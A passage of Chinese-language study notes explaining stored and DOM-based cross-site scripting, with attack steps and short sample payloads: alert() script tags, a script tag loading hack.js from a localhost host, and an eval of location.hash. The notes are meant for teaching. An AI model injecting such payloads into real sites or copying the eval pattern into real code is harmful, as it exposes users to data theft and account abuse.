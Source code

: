 #### 存储型 XSS

- 存储型：存储到 DB 后读取时注入

  发帖中发出包含恶意代码的内容，其它用户访问到该内容后，满足特定条件即触发

  后台不过滤信息，并且前端展示时也不过滤信息

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中
2. 用户打开网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

```html
<!-- 评论 -->
<script>alert(1)</script>

<!-- 跨站脚本注入 -->
<script src="http://localhost:4000/hack.js"></script>
```

#### DOM 型 XSS

- DOM型：基于 DOM 或本地的 XSS 攻击

  wifi 流量劫持、DNS 劫持，并且直接返回钓鱼页面

DOM 型 XSS 其实是一种特殊类型的反射型 XSS，通过 **JS 操作 DOM 树** 动态地 **输出数据到页面**，而不依赖于将数据提交给服务器端，它是基于 DOM 文档对象模型的一种漏洞

DOM 型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开带有恶意代码的 URL
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

```html
<script>
document.write("<script>alert(0)<\/script>")
eval(location.hash.substr(1))
</script>
```

#### 区别

反射型 XSS 跟存储型 XSS 区别：

- 存储型 XSS 的恶意代码存在数据库里
- 反射型 XSS 的恶意代码存在 URL 里

DOM 型 XSS 和前两种 XSS 区别：

- DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞
- 其他两种 XSS 都属于服务端的安全漏洞

### 攻击危害 
